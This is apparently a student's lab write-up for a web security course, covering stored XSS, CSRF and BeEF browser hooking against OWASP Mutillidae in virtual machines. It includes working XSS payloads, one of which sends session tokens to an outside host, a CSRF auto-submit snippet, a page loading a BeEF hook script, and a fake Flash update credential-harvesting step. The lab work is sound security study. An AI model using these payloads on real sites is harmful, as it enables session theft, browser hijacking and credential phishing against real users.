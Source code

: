 # INFO-6076 – Web Security
## 💥 Lab 03: XSS, CSRF, and BeEF

This lab explores the exploitation of web vulnerabilities including **Stored XSS**, **Cross-Site Request Forgery (CSRF)**, and **Browser Exploitation Framework (BeEF)** techniques on a vulnerable web app: **OWASP Mutillidae**.

---

## 🔧 Prerequisites

- Kali Linux VM with Firefox and BeEF installed
- Ubuntu VM running Mutillidae
- Windows 10 VM with Firefox browser
- Internet connectivity
- Apache server on Kali
- VMware Workstation 16+

## 🧪 Lab Components

### ✅ Part 1: Stored XSS – Page Redirection
- Used `<script>window.location = "http://www.offensive-security.com/"</script>` on blog entry
- Demonstrated malicious redirection through stored XSS
- Verified on Windows 10 VM via Firefox
- Grabbing session tokens using `<script>document.location="http://oabolurin-uws/..."</script>`

📸 See `screenshots/slide01.png` and `slide02.png`

---

### ✅ Part 2: CSRF Attack via Blog Entry
- Identified and modified a CSRF payload using directory traversal
- Inserted invisible form submission using:
  ```html
  <i onmouseover="window.document.getElementById('f').submit()">oabolurin will get A+ in this course</i>

---

### ✅ Part 3: BeEF Setup and Hook
- Installed and ran beef-xss on Kali
- Created a hook-enabled HTML page (testanswers.html)
- Hooked a Windows 10 browser by redirecting via XSS payload
- Verified BeEF control panel is capturing browser

📸 See screenshots/slide04.png and HTML file testanswers.html

---

### ✅ Part 4: Hooking via Mutillidae Blog
- Used a modified blog entry with BeEF hook
- Logged into Mutillidae as victim user
- Hovered to trigger browser hook to BeEF panel

📸 See screenshots/slide05.png

---

### ✅ Part 5: System Fingerprinting via BeEF
- Verified virtual machine detection via hardware.gpu
- I dentified host environment in BeEF details tab

📸 See screenshots/slide06.png

---

### ✅ Part 6: Social Engineering via BeEF
- Executed “Fake Flash Update” attack
- Collected dummy Google credentials from victim
- Verified harvested data from BeEF control panel

📸 See screenshots/slide07.png

---

### 📂 Files Included
- testanswers.html – Hook-enabled attacker page for BeEF

screenshots/ – Contains slide screenshots (7 total)

---

### 📝 `testanswers.html` (sample payload for hooking)

```html
<!DOCTYPE html>
<html>
<head>
  <title>oabolurin</title>
  <script src="http://10.0.0.99:3000/hook.js"></script>
</head>
<body>
  <h1>Welcome to oabolurin’s Cheat Sheet!!!</h1>
  <p>You can find the answers to all of Art’s tests here.</p>
</body>
</html>
